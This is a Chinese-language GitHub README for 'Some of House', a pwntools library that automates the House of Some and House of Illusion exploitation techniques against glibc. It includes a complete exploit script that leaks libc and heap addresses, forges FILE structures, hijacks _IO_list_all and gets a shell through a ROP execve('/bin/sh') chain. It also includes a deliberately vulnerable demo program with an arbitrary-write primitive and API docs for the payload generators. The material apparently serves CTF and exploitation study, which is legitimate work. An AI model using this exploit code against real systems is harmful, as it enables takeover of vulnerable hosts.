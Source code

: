 # Some of House

[![Hits](https://hits.sh/github.com/CsomePro/Some-of-House.svg?label=Visitors)](https://hits.sh/github.com/CsomePro/Some-of-House/)

House实用小工具合集

## 目前已包含的House

House of Some: https://blog.csome.cc/p/house-of-some/

House of Illusion: https://enllus1on.github.io/2024/01/22/new-read-write-primitive-in-glibc-2-38/#more

## HouseOfSome x Illusion的自动化

在exit退出之后使用如下脚本即可

```python
from SomeofHouse import HouseOfSome
io = process("./demo")

...

libc = ELF("./libc.so.6", checksec=None)
libc.address = libc_base
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io)
```

- controled_addr：可写地址，作为延长的IO_list_all中的io file写入的起始地址

### 举个例子

```python
from pwn import *
from SomeofHouse import HouseOfSome

context.log_level = 'debug'
context.arch = 'amd64'

tob = lambda x: str(x).encode()
io = process("./demo")

io.recvuntil(b"[+] printf: ")
printf_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"printf_addr: {printf_addr:#x}")

def add(size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size> ", tob(size))
    
def write(addr, size, content):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"size> ", tob(size))
    io.sendlineafter(b"addr> ", tob(addr))
    io.sendafter(b"content> ", content)

def leave():
    io.sendlineafter(b"> ", b"3")

libc = ELF("./libc.so.6", checksec=None)
add(0x200)
io.recvuntil(b"[+] done ")
heap_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"heap_addr: {heap_addr:#x}")

libc_base = printf_addr - libc.symbols["printf"]
log.success(f"libc_base: {libc_base:#x}")

libc.address = libc_base
fake_file_start = heap_addr + 0xe0 + 0xe8
# 上方是信息收集
# ------------------------------------------------- # 
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
# 构造第一个任意地址写原语
payload = hos.hoi_read_file_template(fake_file_start, 0x400, fake_file_start, 0)
io.sendlineafter(b"content> ", payload)
write(libc.symbols["_IO_list_all"], 8, p64(heap_addr)) # 劫持_IO_list_all
leave() # exit

hos.bomb(io) # 一句话攻击

io.interactive()
```

demo.c源码

```python
#include<stdio.h>

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    int c;
    printf("[+] printf: %p\n", &printf);
    while (1) {
        printf(
            "1. add heap.\n"
            "2. write libc.\n"
            "3. exit\n"
            "> "
        );
        scanf("%d", &c);
        if(c == 1) {
            int size;
            printf("size> ");
            scanf("%d", &size);
            char *p = malloc(size);
            printf("[+] done %p\n", p);
            printf("content> ");
            read(0, p, size);
        } else if(c == 2){
            size_t addr, size;
            printf("size> ");
            scanf("%lld", &size);
            printf("addr> ");
            scanf("%lld", &addr);
            printf("content> ");
            read(0, (char*)addr, size);
        } else {
            break;   
        }
        
    }
    
}
```

## Docs

### class HouseOfSome(libc, controled_addr, zero_addr=libc.symbols['_environ']-0x10)

**Parameters**

- libc([ELF](https://docs.pwntools.com/en/latest/elf/elf.html#pwnlib.elf.elf.ELF)) - libc文件ELF对象
- controled_addr(int) - 可写地址，作为延长的IO_list_all中的io file写入的起始地址
- zero_addr(int) - 内容常0的地址

house of some自动化payload生成类

**Example**

```python
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, libc.symbols['_IO_file_underflow'] + 390)
```

#### bomb(io, retn_addr=0) -> None

直接一把梭提权，运用[pwntools自带工具ROP](https://docs.pwntools.com/en/latest/rop/rop.html)，其中执行函数为`rop.call('execve', [b'/bin/sh', 0, 0])`

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - (可选)在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移。如果不设置，则会从泄露的栈中寻找IO_flush_all的地址

#### read(fd, buf, len, end=0) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待写入的地址
- len(int) - 写入长度
- end(bool) - 是否为最后一个fake_file

#### write(fd, buf, len) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待读取的地址
- len(int) - 读取长度

#### bomb_raw(io, retn_addr=0) -> int

执行此函数之后，当前io处在等待输入，并即将写入ROP

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - (可选)在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移。如果不设置，则会从泄露的栈中寻找IO_flush_all的地址

**return**

返回泄露的栈地址，此栈地址是ROP的起始地址

